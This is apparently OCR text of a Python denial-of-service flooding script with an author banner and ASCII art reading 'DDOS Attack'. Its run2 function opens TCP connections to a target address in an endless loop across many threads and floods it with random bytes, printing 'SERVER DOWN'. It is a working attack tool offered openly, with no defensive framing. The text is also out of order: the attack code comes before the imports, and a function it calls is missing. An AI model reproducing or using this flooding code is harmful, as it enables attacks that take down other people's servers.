 def run2():
	data = random._urandom(16)
	i = random.choice(("[-]","[+]","[x]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((ip,port))
			s.send(data)
			for x in range(times):
				s.send(data)
			print(i +"TEAM X TA9TA7EM!!!!!!")
		except:
			s.close()
			print("[*] SERVER DOWN")
            
for y in range(threads):
	if choice == 'y':
		th = threading.Thread(target = run)
		th.start()
	else:
		th = threading.Thread(target = run2)
		th.start()
			#AUTHOR : Naruto
#SUBSCRIBE Dev Naruto
import random
import threading
import codecs
import struct
import time
import socket
import sys
import os

os.system("clear")
print("""
"\[\033[0;35m\]"

𝐃𝐝𝐨𝐬 NOZA COSTRA

𝕋𝕆𝕆𝕃𝕊 𝔹𝕐 ℕ𝔸ℝ𝕌𝕋𝕆

╔═══╗─╔╗──────
╚╗╔╗║─║║──────
─║║║╠═╝╠══╦══╗
─║║║║╔╗║╔╗║══╣
╔╝╚╝║╚╝║╚╝╠══║
╚═══╩══╩══╩══╝
╔═══╗╔╗─╔╗─────╔╗──
║╔═╗╠╝╚╦╝╚╗────║║──
║║─║╠╗╔╩╗╔╬══╦═╣║╔╗
║╚═╝║║║─║║║╔╗║╔╣╚╝╝
║╔═╗║║╚╗║╚╣╔╗║╚╣╔╗╗
╚╝─╚╝╚═╝╚═╩╝╚╩═╩╝╚╝
